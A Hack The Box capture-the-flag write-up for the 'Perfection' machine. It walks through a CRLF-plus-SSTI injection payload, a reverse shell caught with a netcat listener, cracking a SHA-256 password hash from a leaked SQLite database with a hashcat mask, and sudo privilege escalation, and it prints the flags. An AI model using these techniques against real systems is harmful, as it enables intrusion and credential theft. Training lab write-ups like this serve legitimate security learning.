




# Perfection

## Machine Details 

- **CTF:** Hack The Box
- **Category:** Linux
- **Points:** 20

## Solution

We can open the browser:



And intercept our request in burp:



So we can try to use [CRLF (%0D%0A) Injection](https://book.hacktricks.xyz/pentesting-web/crlf-0d-0a) with [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#what-is-ssti-server-side-template-injection) and insert `%0a<%= 7*7 %>` and URL-encode it:



So we seem it outputs 49, so we can build python reverse shell [here](https://www.revshells.com), set up our netcat listener and send the request:

```sh
$ nc -l 9001
```



Send the request and ...

```sh
$ nc -l 9001
$ id
id
uid=1001(susan) gid=1001(susan) groups=1001(susan),27(sudo)
```

And we are in! Let's get the user flag:

```sh
$ cat ../user.txt
4c42325dee60f5a10cf9000b409e045b
```

Now we need to escalate our priveleges. We can find file `/var/mail/susan`, let's read it:

```
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```

This mean that the password will be in form `susan_nasus_...`.

We can also find the file `Migration/pupilpath_credentials.db`:

```
SQLite format 3
tableusersusers
CREATE TABLE users (
id INTEGER PRIMARY KEY,
name TEXT,
password TEXT
Stephen Locke154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8S
David Lawrenceff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87aP
Harry Tylerd33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393O
Tina Smithdd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57Q
Susan Millerabeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
```

So the `Susan's` hash will be `abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f`. It's SHA-256. Let's decrypt it with hashcat, knowing the pattern of the password:

```sh
$ hashcat -m 1400 -a 3 hash.txt "susan_nasus_?d?d?d?d?d?d?d?d?d"
...
susan_nasus_413759210
```

Got it! Let's see, what susan can do as root:

```sh
susan@perfection:~/Migration$ sudo -l
Matching Defaults entries for susan on perfection:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User susan may run the following commands on perfection:
    (ALL : ALL) ALL
```

Susan can do anything :)

```sh
$ sudo cat /root/root.txt
af49e4d4b58eabb89421464f6cf0fec1
```

## Final Flags

> `user`: 4c42325dee60f5a10cf9000b409e045b
> `root`: af49e4d4b58eabb89421464f6cf0fec1

*Created by [bu19akov](https://github.com/bu19akov)*